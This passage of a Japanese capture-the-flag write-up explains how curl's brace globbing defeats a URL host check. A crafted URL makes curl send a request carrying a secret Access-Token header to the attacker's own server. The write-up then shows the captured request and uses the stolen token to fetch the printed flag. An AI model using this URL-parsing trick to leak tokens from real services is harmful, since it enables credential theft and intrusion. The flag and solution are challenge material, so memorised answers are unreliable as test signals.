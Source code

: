 curl特有の機能を使うのではと考えていると、`http://example.com/{file1,file2}`のようなGlobbingが利用可能であったことを思い出す。  
この例では、`http://example.com/file1`と`http://example.com/file2`の二つにリクエストが発される。  
この機能をホスト部分に利用することを試みる。  
幸い`{`や`}`は禁止されていないので、うまくホストを誤魔化せそうだ。  
Schemeを`http`、User Infoを`example.com{`、Hostを`localhost`、Pathを`/,}`とすると、連結により`http://example.com{@localhost/,}`のようなURLとなる。  
このURLの解析ではホストは`localhost`となるが、curlでは`http://example.com@localhost/`と`http://example.com`の両方にリクエストが飛ぶ。  
あとは`example.com`を自身のサーバに書き換え、リクエストを待ち受けてやればよい。  
以下のように行う。  
![site2.png](site/site2.png)  
サーバには以下のリクエストが届いた。  
```
{
    'method': 'GET', 
    'headers': {
        'Host': 's4t.pw', 
        'User-Agent': 'curl/7.81.0', 
        'Accept': '*/*', 
        'Access-Token': 'YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXo'
    }
}
```
`Access-Token`を盗み出せたので`/api/flag`を直接叩いてやる。  
```bash
$ curl http://host3.dreamhack.games:19540/api/flag -H 'Access-Token: YWJjZGVmZ2hpamtsbW5vcHFyc3R1dnd4eXo'
{"result":"success","message":"DH{797d6b48b524544a3ba9a1874a265efbe286c08fee90200fbfe92f8f54baf237}"}
```
flagが得られた。  

## DH{797d6b48b524544a3ba9a1874a265efbe286c08fee90200fbfe92f8f54baf237}